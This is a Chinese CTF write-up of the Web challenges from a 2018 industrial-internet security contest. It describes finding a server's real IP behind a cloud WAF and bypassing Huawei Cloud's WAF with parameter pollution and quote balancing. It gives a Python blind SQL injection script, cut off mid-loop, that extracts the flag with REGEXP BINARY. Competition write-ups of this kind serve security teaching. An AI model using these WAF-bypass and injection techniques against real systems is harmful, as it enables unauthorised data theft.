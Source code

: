 # 天枢赛博地球杯工业互联网安全大赛wp

> 2018-1-19日

[TOC]

## Web

### YUN\_WAF\_的突破_青云

ping一下就能拿到真实ip

```
➜  ~ ping qcloudcetc.xctf.org.cn
PING qcloudcetc.xctf.org.cn (139.198.15.25): 56 data bytes
64 bytes from 139.198.15.25: icmp_seq=0 ttl=45 time=6.293 ms
```

findpwd.php username字段有SQL注入，直接sqlmap即可

![1](images/1.jpg)

### YUN\_WAF\_的突破_华为云

费了老大的劲没找到真实IP，那就直接绕吧

参数污染可以绕过华为云，华为云好像检测了传递参数中引号的单双数，于是参数污染的时候第一个参数加个引号即可绕过

脚本如下

```
#coding: utf-8

import requests

session = requests.Session()

flag = 'flag{'
while 1:
    for char in 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789-{}_':
        
        url = 'http://huaweicetc.xctf.org.cn/findpwd.php'

        data = "username=dubhe'&username=dubhe' or password REGEXP BINARY '^" + flag + char + "' #"

        headers = {
            'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:45.0) Gecko/20100101 Firefox/45.0',
            'Content-Type': 'application/x-www-form-urlencoded'
        }

        http = session.post(url, data=data, headers=headers)

        
        if len(http.content) == 221:
            pass
        else:
```